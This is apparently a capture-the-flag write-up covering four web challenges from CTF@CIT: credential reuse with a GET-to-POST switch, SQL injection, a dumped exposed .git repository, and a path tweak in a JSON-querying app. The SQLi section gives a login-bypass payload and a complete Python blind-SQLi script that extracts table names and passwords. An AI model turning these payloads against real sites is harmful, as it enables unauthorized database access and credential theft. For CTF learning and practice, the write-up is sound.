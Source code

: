 ```yaml
---
title: 'CTF@CIT'
description: 'Nice CTF with good web challenges'
date: 2025-05-02
image: './image.png'
---
```


# keeping up with the credentials

## Question

I'm all about strong passwords. If you're not using one, you're just playing yourself.

This challenge requires something that can be acquired in any of the other web challenges.

## Solution

Here we've been given with a website looking like this.

 ![](./img1.png)

Since we obtained the credentials of `admin:9f3IC3uj9^zZ` from @[breaking authentication](mention://575ed52d-d831-46b9-a70b-afad2ee03550/document/7bf4b60e-7a20-4606-9aa5-b092e8c12ebf) challenge, we try to login and we get to a debug page, which is not that useful.

Now usually when we login it's a `GET` request

 ![](./img2.png)

Let's just try changing that to a POST request, and it'll send a `302 found` of `/admin.php` and going to `/admin.php` we get the flag.

 ![](./img3.png)


# breaking authentication

## Question

"Say my username."

## Solution

Here we've been given with a website which looks like this.

 ![](./img4.png)

The first line of thought would be to do SQLi. So writing `admin' OR '1'='1` we get admin panel access but there's nothing there so go ahead and do blind SQLi.


Writing this script we find the tables in the database schema-

```python
import requests

url = "http://23.179.17.40:58001/"

# Query to extract all table names
query = "(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = database())"

# Find the length first
k = 0
for i in range(1, 300):  # Tables might be many, increased range
    print("\r -> trying length ", i, end="")
    payload = '\' OR LENGTH(' + query + ') = \'' + str(i)
    data = {'username': 'admin', 'password': payload, 'login': 'Login'}
    r = requests.post(url, data=data, allow_redirects=True)
    if r.url.endswith("/admin.php"):
        print(f"\n[+] Found length of table names output: {i}")
        k = i
        break

if k == 0:
    print("[-] Length of response is greater than 300, adjust range")
    exit()

returnval = ""
q2 = '\' OR ASCII(SUBSTRING(' + query + ','

for i in range(1, k + 1):
    low = 32
    high = 126
    while low <= high:
        mid = (low + high) // 2
        # Prepare payload to check if character ASCII <= mid
        payload = q2 + str(i) + ",1)) <= '" + str(mid)
        data = {'username': 'admin', 'password': payload, 'login': 'Login'}
        r = requests.post(url, data=data, allow_redirects=True)

        if r.url.endswith("/admin.php"):
            # ASCII code is <= mid
            high = mid - 1
        else:
            # ASCII code is > mid
            low = mid + 1

    found_char = chr(low)
    returnval += found_char
    print(f"[+] Found character {i}: {found_char}")

print(f"\n[+] Final extracted table names: {returnval}")
```

The tables we find are `users` and `secrets`

In the secrets table, the columns are name and value, and altering the query to 

`query = "(SELECT GROUP_CONCAT(password) FROM users)"`

we get the flag: `CIT{36b0efd6c2ec7132}`

# commit & order: version control unit

## Question

In software development, the repository is represented by two separate yet equally important branches...

## Solution

Here we've been given a website which looks like this.

 ![](./img5.png)

Since it talks about commit order and version control, we proceed to `/.git/HEAD` endpoint giving another endpoint to `ref: refs/heads/master`

From here, we use `GitTools`, specifically `Dumper` to get all the folders from the site and `Extractor` to extract the source code prior to each commit.

After extracting, we see that there are 5 folders with their respective commits.

 ![](./img6.png)

We examine the source code for each of the folders and in the `commit: 1-68f8fc..` we see the source code:

```markup
<div class="warning-banner">
      <svg width="24" height="24" fill="currentColor" viewBox="0 0 24 24">
        <path d="M1 21h22L12 2 1 21zm12-3h-2v2h2v-2zm0-8h-2v6h2v-6z" />
      </svg>
      This admin panel is under construction. No actual functionality is available yet. But here, have this: Q0lUezVkODFmNzc0M2Y0YmMyYWJ9
    </div> 
 </div>
```

We find a base64 encoded text and decoding it we obtain: `CIT{5d81f7743f4bc2ab}`

# how I parsed your JSON

## Question

"This is the story of how I defined your schema."

The flag is in secrets.txt

## Solution

Here we've been given a website which looks like this.

 ![](./img7.png)

This application uses `FlaskMyAdmin` which uses SQL like syntax, and our aim is to access secrets.txt.

In the site itself it defaults the `employee.json` table to `employee`. Hence to obtain the flag we'd have to intercept the request on Burp Suite and alter the request to access `/app/secrets.txt.txt`

 ![](./img8.png)
 Doing this we obtain the flag: `CIT{235da65aa6444e27}`
